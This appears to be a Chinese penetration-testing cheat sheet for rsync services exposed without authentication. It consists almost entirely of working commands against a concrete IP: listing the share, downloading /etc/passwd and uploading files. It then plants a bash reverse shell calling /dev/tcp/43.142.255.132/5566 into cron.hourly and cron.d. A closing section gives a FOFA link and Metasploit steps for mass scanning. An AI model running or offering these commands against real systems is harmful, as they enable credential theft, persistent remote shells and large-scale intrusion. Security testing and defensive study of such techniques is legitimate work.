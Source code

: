 ```
判断：rsync rsync://123.58.224.8:18822/
利用：
-读取文件：rsync rsync://123.58.224.8:18822/src/
-下载文件：rsync rsync://123.58.224.8:18822/src/etc/passwd ./
-上传文件：rsync -av passwd rsync://123.58.224.8:18822/src/tmp/passwd
反弹shell：
1、获取信息：
rsync rsync://123.58.224.8:18822/src/etc/crontab/root/cron.txt
2.创建文件 
touch shell 
#!/bin/bash 
/bin/bash -i >& /dev/tcp/43.142.255.132/5566 0>&1
chmod +x shell		
3、上传文件 
rsync -av shell rsync://123.58.224.8:18822/src/etc/cron.hourly 
rsync -av shell rsync://your-ip:873/src/etc/cron.d/shell
4、等待接受反弹
```

<img src="图片\Snipaste_2023-02-09_11-25-05.png" alt="Snipaste_2023-02-09_11-25-05" style="zoom:80%;" />

批量搜哈

https://github.com/wgpsec/fofa_viewer

```
msfconsole
use auxiliary/scanner/rsync/modules_list
set rhosts file:/root/Desktop/ips.txt
set threads 10
run
```
